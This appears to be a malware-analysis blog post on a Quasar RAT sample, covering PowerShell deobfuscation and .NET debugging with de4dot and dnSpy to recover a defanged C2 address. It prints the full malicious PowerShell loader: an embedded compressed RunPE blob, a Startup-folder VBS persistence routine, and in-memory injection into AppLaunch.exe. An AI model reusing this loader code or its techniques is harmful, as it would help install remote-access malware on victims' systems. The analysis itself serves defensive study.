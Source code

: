 ```yaml
---
tags: RATs
---
```


## Quasar RAT - PowerShell Deobfuscation - .Net Debugging

Quasar RAT is a malware family written in .NET which is used by a variety of attackers, as it's fully functional and open source.

The sample we're looking at today is taken from [MalwareBazaar](https://bazaar.abuse.ch/download/98844e610a8d1e4800f8aee8d8464acc12d50f19c4025ffbf1759a899b5d66c4)

It involves decoding and extracting byte arrays from a PowerShell script. The executable is then debugged with DNSpy to reveal the C2 address.

## Initial PowerShell
``` powershell
Add-Type -AssemblyName System.Windows.Forms
Add-Type -AssemblyName Microsoft.VisualBasic
Add-Type -AssemblyName Microsoft.CSharp
Add-Type -AssemblyName System.Management
Add-Type -AssemblyName System.Web

[Byte[]] $RUNPE = @(31,139,8,0,0,0,0,0,4,0,237,189,7,96,28,73,150,37,38,47,109,202,123,127,74,245,74,215,224,116,161,8,128,96,19,36,216,144,64,16,236,193,136,205,230,146,236,29,105,71,35,41,171,42,129,202,101,86,101,93,102,22,64,204,237,157,188,247,222,123,239,189,247,222,123,239,189,247,186,59,157,78,39,247,223,255,63,92,102,100,1,108,246,206,74,218,201,158,33,128,170,200,31,63,126,124,31,63,34,214,77,177,188,72,95,95,55,109,190,56,252,141,19,255,207,241,211,34,187,88,86,77,91,76,155,238,87,175,214,203,182,88,228,227,179,101,155,215,213,234,117,94,95,22,211,28,205,126,227,100,153,45,242,102,149,77,243,244,69,222,158,151,197,187,223,56,249,197,191,113,146,210,179,90,79,202,98,154,78,203,172,105,210,47,170,203,34,151,207,245,107,60,63,94,231,23,69,181,76,63,122,221,214,235,105,219,124,228,190,250,158,124,244,60,187,174,214,237,150,252,248,189,138,229,108,252,58,255,69,235,156,240,201,202,81,250,50,155,190,77,63,75,119,222,237,222,249,190,123,117,85,23,151,89,155,167,13,67,72,95,214,21,33,219,156,45,207,171,122,145,181,212,159,107,234,225,194,111,10,202,117,158,205,170,101,121,157,210,128,95,182,181,129,240,237,108,57,43,243,195,91,189,242,102,142,79,110,245,198,186,88,58,36,103,221,198,58,150,176,181,64,15,26,255,146,159,13,210,189,110,179,186,93,175,222,131,116,140,222,235,226,7,189,65,119,199,65,61,128,195,94,229,13,113,83,62,219,189,101,251,167,121,243,182,173,86,183,108,253,166,104,123,228,255,222,23,89,221,204,179,242,184,217,250,106,185,200,150,217,69,62,123,115,189,202,199,79,174,127,146,62,173,235,236,122,196,35,56,169,150,77,203,36,218,219,191,243,253,126,31,147,235,54,255,222,247,211,47,138,102,122,19,58,202,20,102,176,123,183,108,255,186,157,157,45,87,235,246,246,205,191,92,183,239,213,254,180,174,171,58,206,69,63,158,47,103,34,158,16,115,251,169,145,216,227,151,103,190,180,62,45,203,179,197,170,170,219,173,143,222,230,245,50,47,239,237,141,103,101,249,17,145,50,39,78,108,90,238,137,168,73,140,149,199,57,142,248,107,154,230,239,72,197,44,133,141,136,92,235,69,46,188,190,165,56,207,229,207,59,135,62,82,223,116,239,147,170,42,211,239,86,87,159,238,211,235,210,33,49,67,75,223,26,52,90,254,112,148,18,154,196,2,83,249,242,135,128,212,255,219,240,97,34,125,254,255,50,164,254,95,132,15,216,248,39,11,210,161,164,89,202,178,154,158,190,179,140,204,166,129,145,73,179,25,73,90,211,200,31,101,190,188,104,231,242,123,75,122,73,126,91,213,85,155,79,127,150,177,149,41,173,139,54,87,115,244,69,190,168,234,107,131,242,74,62,20,132,38,89,147,31,27,188,85,21,78,214,231,231,121,173,223,243,239,208,163,35,82,60,231,242,25,53,107,0,191,205,151,63,132,145,188,162,217,126,207,129,88,76,111,51,18,192,31,30,198,178,37,252,63,100,12,232,231,167,174,96,163,86,63,89,228,87,95,158,191,38,6,32,221,123,211,40,126,8,148,61,33,65,178,76,114,188,165,214,54,91,173,200,5,96,55,225,5,121,133,35,99,133,167,213,130,236,236,236,121,177,164,207,66,228,143,91,106,50,89,19,49,237,55,34,165,222,23,161,49,227,254,139,229,60,39,54,18,247,138,94,101,115,49,5,82,212,247,179,50,187,112,224,242,229,101,81,87,203,5,249,61,14,161,117,93,211,223,79,139,154,40,74,124,33,243,218,119,118,48,116,243,145,180,233,251,146,102,36,222,71,152,0,131,238,13,86,244,105,94,230,23,68,74,223,243,53,116,159,233,119,17,146,255,254,230,189,31,145,126,152,244,113,58,118,141,131,35,229,77,86,98,51,220,168,37,252,166,128,247,52,89,15,240,55,172,210,6,209,25,82,74,183,70,232,70,232,161,185,236,193,253,250,118,243,134,249,235,153,189,91,15,233,107,219,191,65,140,122,238,111,159,12,206,15,222,60,174,174,199,248,77,177,100,212,61,126,127,224,113,253,184,146,96,82,45,207,101,85,204,82,202,65,24,101,247,38,171,47,242,246,101,134,217,86,202,191,204,174,203,138,200,225,64,116,194,83,16,180,64,48,215,137,141,174,230,69,153,167,91,69,250,56,189,239,189,29,129,128,7,80,48,32,102,22,14,13,187,240,240,196,180,25,250,94,230,87,145,239,182,124,114,152,39,166,236,12,136,254,119,81,16,77,49,6,247,209,75,52,57,151,121,221,142,223,84,95,209,180,220,219,219,210,8,152,191,255,242,124,11,210,82,157,111,245,81,187,115,39,6,184,173,175,251,31,70,136,133,39,110,181,188,143,117,76,3,214,45,244,51,98,200,224,41,206,211,173,223,213,53,221,242,249,67,88,102,124,186,88,181,215,198,48,141,127,138,178,88,157,63,206,179,178,33,73,165,9,149,103,63,253,25,252,113,32,127,117,26,47,215,101,41,82,221,20,242,115,85,220,233,112,143,121,6,8,131,135,132,163,186,226,225,159,190,155,230,171,193,153,196,227,5,230,254,3,134,60,39,14,86,77,68,212,124,82,180,58,223,121,77,51,46,19,174,226,129,241,221,59,25,36,35,68,100,65,233,144,39,164,218,110,132,228,247,250,9,224,238,111,128,235,100,95,231,27,159,237,188,123,114,239,251,3,239,104,107,106,179,243,125,201,82,209,44,116,211,38,230,193,252,235,252,8,199,227,133,253,247,159,143,65,235,237,190,81,244,135,237,124,247,155,33,162,224,97,190,181,47,108,173,138,177,159,53,28,89,117,57,48,18,60,27,70,131,231,125,56,12,207,0,151,13,124,156,147,200,188,55,145,55,251,73,157,175,149,220,55,248,86,209,175,111,36,124,248,214,255,247,168,15,113,205,39,239,136,68,78,88,246,30,14,9,84,199,101,25,180,93,120,134,189,205,206,87,58,61,27,188,211,222,87,27,117,120,216,26,83,162,127,153,57,193,120,161,108,14,68,235,6,62,24,137,188,124,106,13,244,207,145,74,166,145,120,106,244,179,192,249,125,111,132,54,250,218,254,183,58,23,155,125,243,216,183,55,9,138,247,78,100,70,252,193,165,191,43,115,213,255,155,5,166,97,143,231,12,211,243,222,22,238,254,206,38,203,41,144,191,77,188,151,215,55,219,225,30,236,65,235,201,206,118,70,193,208,213,151,4,172,46,102,64,156,189,149,129,23,6,226,167,224,115,101,150,161,80,43,252,124,211,168,9,202,153,231,50,248,47,70,152,197,138,197,200,159,8,246,74,216,201,34,17,30,166,49,177,98,216,219,38,102,251,217,21,241,13,177,98,247,59,99,193,54,68,151,253,239,54,42,201,78,243,8,153,125,50,141,76,104,100,72,174,28,250,255,14,85,9,185,17,45,244,229,249,121,147,195,59,236,74,198,179,131,1,152,205,156,114,154,228,138,47,38,121,109,149,89,92,242,118,63,29,150,188,79,135,112,166,40,136,20,57,97,120,198,97,35,253,120,220,235,141,62,253,228,147,247,39,29,160,94,170,168,220,210,113,15,201,4,196,7,253,120,211,131,204,247,171,236,234,105,214,102,210,193,123,117,176,59,40,139,166,135,85,69,255,230,245,155,234,3,58,25,84,124,220,9,49,124,56,140,15,53,49,154,47,80,68,20,105,48,49,127,17,244,53,228,74,153,231,9,103,120,198,79,72,215,189,61,169,86,215,110,152,93,186,216,129,203,31,52,128,224,147,241,115,78,93,109,34,4,158,175,33,253,68,226,144,207,58,152,244,145,232,233,133,247,146,115,60,3,178,142,167,51,253,188,180,62,36,222,3,96,116,254,148,194,49,166,35,151,254,9,53,106,2,107,241,129,26,213,243,59,189,158,227,62,231,123,17,12,82,164,89,204,47,207,79,151,148,90,121,9,248,55,10,82,87,139,237,29,108,26,97,224,62,220,233,26,109,107,149,7,32,120,225,197,201,247,69,90,124,6,139,160,191,1,149,111,34,78,31,204,58,186,111,84,168,135,243,147,221,111,110,12,23,237,11,255,223,139,20,191,126,156,62,76,233,240,107,63,78,31,166,121,244,235,27,9,31,190,245,255,61,234,71,211,248,230,211,111,219,16,58,150,235,247,63,221,36,223,6,88,151,56,119,32,98,219,187,239,47,97,239,67,145,200,176,35,31,209,218,228,116,222,255,120,0,7,85,191,208,229,250,235,147,235,179,217,150,75,100,139,58,116,138,250,108,118,231,206,248,247,42,202,114,16,77,176,73,177,92,199,148,92,4,221,226,147,79,34,13,39,68,218,183,157,207,189,151,245,87,250,241,75,254,31,31,153,47,8,105,41,0,0,0)

Function INSTALL() {
    [String] $VBSRun = [System.Text.Encoding]::Default.GetString(@(83,101,116,32,79,98,106,32,61,32,67,114,101,97,116,101,79,98,106,101,99,116,40,34,87,83,99,114,105,112,116,46,83,104,101,108,108,34,41,13,10,79,98,106,46,82,117,110,32,34,80,111,119,101,114,83,104,101,108,108,32,45,69,120,101,99,117,116,105,111,110,80,111,108,105,99,121,32,82,101,109,111,116,101,83,105,103,110,101,100,32,45,70,105,108,101,32,34,32,38,32,34,37,70,105,108,101,80,97,116,104,37,34,44,32,48))
    [System.IO.File]::WriteAllText(([System.Environment]::GetFolderPath(7) + "\" + "SystemAutoRunner.vbs"), $VBSRun.Replace("%FilePath%", $PSCommandPath))
}

Function Decompress {
	[CmdletBinding()]
    Param (
		[Parameter(Mandatory,ValueFromPipeline,ValueFromPipelineByPropertyName)]
        [byte[]] $byteArray = $(Throw("-byteArray is required"))
    )
	Process {
        $input = New-Object System.IO.MemoryStream( , $byteArray )
	    $output = New-Object System.IO.MemoryStream
        $gzipStream = New-Object System.IO.Compression.GzipStream $input, ([IO.Compression.CompressionMode]::Decompress)
	    $gzipStream.CopyTo( $output )
        $gzipStream.Close()
		$input.Close()
		[byte[]] $byteOutArray = $output.ToArray()
        return $byteOutArray
    }
}

function CodeDom([Byte[]] $BB, [String] $TP, [String] $MT) {
$dictionary = new-object 'System.Collections.Generic.Dictionary[[string],[string]]'
$dictionary.Add("CompilerVersion", "v4.0")
$CsharpCompiler = New-Object Microsoft.CSharp.CSharpCodeProvider($dictionary)
$CompilerParametres = New-Object System.CodeDom.Compiler.CompilerParameters
$CompilerParametres.ReferencedAssemblies.Add("System.dll")
$CompilerParametres.ReferencedAssemblies.Add("System.Management.dll")
$CompilerParametres.ReferencedAssemblies.Add("System.Windows.Forms.dll")
$CompilerParametres.ReferencedAssemblies.Add("mscorlib.dll")
$CompilerParametres.ReferencedAssemblies.Add("Microsoft.VisualBasic.dll")
$CompilerParametres.IncludeDebugInformation = $false
$CompilerParametres.GenerateExecutable = $false
$CompilerParametres.GenerateInMemory = $true
$CompilerParametres.CompilerOptions += "/platform:X86 /unsafe /target:library"
$BB = Decompress($BB)
[System.CodeDom.Compiler.CompilerResults] $CompilerResults = $CsharpCompiler.CompileAssemblyFromSource($CompilerParametres, [System.Text.Encoding]::Default.GetString($BB))
[Type] $T = $CompilerResults.CompiledAssembly.GetType($TP)
[Byte[]] $Bytes = [System.Web.HttpUtility]::UrlDecodeToBytes('%1f%8b%08%00%00%00%00%00%04%00%d4%bdy%7c%1b%c5%d98%be%da%5d%edJ%2b%c9%f6J%f6%cavl%cb9l%16%c9Nb%3b%04%27!%07%e1%2cGI%a0%80%1d%8e%84%04hc+K%a5%d0R%14%1bC%0b%b4%14%02%a1%1cm%b8%c3U%8er%96%b3%5c-P%ca%d5%8aP%0am%89%a1-%a5%27%ed%db%83%b6%94%e2%7c%9f%e7%99%99%9d%95%2c%13%d2%f7%fd%fd%f1%cb%27%d6%ce%f3%3c3%cf%3c%f3%3cs%3cs%ec%ec%c1%2b.V4EQt%f8%db%be%5dQ%1eR%d8%bf%25%ca%8e%ff%8d%c2_M%e6%91%1a%e5%db%d1%97%a6%3e%14%3a%e8%a5%a9%9f%fa%cc%daB%fb%a9y%ef%d3%f9%e3Ni_s%dc%bau%de%fa%f6%d5%27%b4%e7O%5b%d7%bev%5d%fb%de%87%1c%d6%7e%8aw%fc%093%13%09k%06%e7%b1l%1fE9(%a4)%bb%e8%7b%9f+%f8%be%a5%a8%a1X(%a2(%ab%c3%8a%12g%b8%1f%9e%05%e1v%11c%09%0b%abLnE%91O%e5%ad0%e1%15%22%2f9GQ%ea%e8%bf%7c%fa%0fV%06%e0%7b+%06%ae%83tV%95B%3e%19%16%22%ec%dc%3f%90%2f%12%00%23%00%ef%1f%80g%ae%3f%e1%f4%f5%f0%fc%f1q%bc%5c%ab%a5%dc%01%16%abf%e6%0b%f95%08X%01%19%8f%0f%97%c5%5b%02%ffg%e6O8%d9%5b%c3%d5%f5%24%e7%b5nB%bc%a5%95b%de%7d%16%8b%83%b2%a9JX%a9%bb%3e%a4%9c%fa%96Fu%22%a4(%c6UW%86%94%fd%c3%95%a9%26%ff%97%9a%ad1%7d%c2%3f%17%18X%8e%0b%92X.%f0%b3%ea%c7%0dx%18%05%b0%95%e5aQ%5c%1b%c0%aeF7%8c%0f%db%5d%10V%8cnk%04R%e9%de%12%08%bb%10%d1%c0%e4FVY7%82%c6%ee6%5d%13%d2u%19.%e8%d6%ca%3an%14%1f%98%e7B%26%af%ady%16F%98%e3%d6%1a%8aa%19n%0c%a1P%b6%00z%b1%3a%d2%5e%82%3dj%f0ax%b5(%03%d4%06%ab%93%e7%82%f2%87%94O%0a%f9%b7%02%8f%91%98%a6%e8%5d%16%3d%3cP%8e1%f2%0b%85%10%f8%f0%1e%40%04J%d6%d5L%0f%0fJd%b1P%12K%3c%8aA7d%10%f3)+%e7%ba%10%99%c6%1e%89%22!%0d%84%c2%19%c0%c3%1aI!%ac%00%dcUox_%00Tw%7c%24%828*%81%eadG+%a0%8f%c4%11%f5%3f%3a%e4Z%83%60%ad%1f%c3%cc%03%e7Ss%b5%84%ca%83%9eOuS(K%1d%c6%c0%90%5b%8f%3f%9f%85%1c%dc!%fcY%87%3fq%f8%e9%1c%b1%b1%00%f5%0cs*%fe4%40%d4y%0f%a0%0a%0cTA%12%e9%09%f7C%b4%8f%91v%0b%88%a34%e9%91%06%7c%d4Q%d2F%d7%81dcZ%e7%98%c2%a8sF%a6%e0%a3%5bJ%d9%3d%95%f1OC%b8%d0%88F%f0%9a%e0%b7q%95%d7%ec%27u0%cd%ec%11%b0%bd%de%d1%9d%ee%1c%81%a2%e8%e3F%04%2b%ce%14L1%8a%94B%0b3d%2bV%a56%f81%0a%8bA%baQ%ac%3b%e9%2c)%[Truncated]')
$Bytes = Decompress($Bytes)
try
{
[String] $MyPt = [System.IO.Path]::Combine([System.Runtime.InteropServices.RuntimeEnvironment]::GetRuntimeDirectory(),"AppLaunch.exe")
[Object[]] $Params=@($MyPt.Replace("Framework64","Framework") ,$Bytes)
return $T.GetMethod($MT).Invoke($null, $Params)
} catch { }
}
INSTALL
[System.Threading.Thread]::Sleep(1000)
CodeDom $RUNPE "Netflix.Movie" "Run"
```

The first interesting string appears to be byte code for a portable executable. 

The second appears to create a VBS script.

There's then a function referencing decompression, which appears to be Gzip.

The next interesting string is a very long URL-encoded byte array.

We're going to start by taking the last, longest, URL-encoded string, and decoding it to reveal an executable using the following CyberChef recipe:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/e1c81006-928f-4863-956b-1ff2a84187a2)

We can then download the output to get our executable.

## Analysing the Executable

We can use a tool such as DetectItEasy or PE Detective to learn it is a .NET executable.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/31baf012-8484-40ec-8768-8f2f10f2ece8)

Knowing this, we can use DNSpy to interrogate the binary further, however, after following the entry point, we quickly realise that the binary is heavily obfuscated, which will make analysis pretty difficult.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/2600994a-708c-44b8-899e-19d766ee6983)

To overcome this, we can use a tool like De4Dot, which identifies and "cleans" obfuscated .NET binaries. This tool can be downloaded from [here](https://github.com/de4dot/de4dot)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/40b9706a-1afc-4417-bcfe-c2089f0bfd04)

De4Dot detects that the executable has been obfuscated, cleans it up, and outputs the cleaned version under a new file. We'll load this file back into DNSpy to see the results.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/50dbb051-72e2-4c79-950b-356d578f07e8)

Thankfully, it worked pretty well, the module and method names don't hold much meaning, but interrogating this binary will be a lot easier with this newer, cleaned version.

Malware typically loads configuration information shortly after the entry point, meaning we're probably not too far away from what we're interested in.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/5fff0c0c-0ee9-4298-9089-3e544ff872ef)

We're going to dig deeper into smethod_0, as it's one of the first executed objects.

We can see that there are strings being defined with Base64 encoded text, which is a good indication that we are looking at configuration-related information. 

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/d9b4ff72-d9ea-482a-bea3-507cf4720124)

As well as the method which is used to decrypt and obtain the data.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/ed76a929-6459-44db-a94f-e0ca0703f45d)

Rather than wasting time reversing this process, we can set a breakpoint and step over the functions to try and reveal important information.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/b1d40550-d478-4dc8-b9b7-6f62624a322c)

Stepping over these functions we reveal the C2 address as: nathwood23[.]mysynology[.]net:6750

Stepping further, we get strong indications that this is related to the Quasar RAT.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/3223cda0-3619-4bc6-8da6-0d43f1d66b6b)

**All Decoded Strings:**

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/9e0a669d-5817-48bc-b1c5-f89a0b08be49)








